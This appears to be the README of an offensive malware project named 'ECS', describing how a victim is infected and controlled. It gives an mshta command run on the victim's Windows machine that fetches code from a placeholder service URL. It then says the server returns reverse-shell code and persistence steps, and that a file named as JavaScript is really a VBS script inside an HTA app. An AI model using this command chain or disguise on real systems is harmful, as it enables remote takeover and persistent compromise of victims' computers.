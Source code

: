 # ECS
![](./ECC.png)

## $${\color{red} step1:}        

 <span style="color:blue"> victim exec the malware or rce on victim : </span>
#### <span style="color:blue"> For windows:  </span>
```powershell  
mshta https://< ecs service url >?uid=< victim uid >&s=1< step number in this > 
``` 
## <span style="color:blue"> step 2 </span>
<span style="color:blue"> server response to victim the reversshell code and persistant acts and make main persist malware
acuatlly the file in path ecs/statics/js/step1.js is not javascript in truth its vbs script file and main html project is hta app  </span>


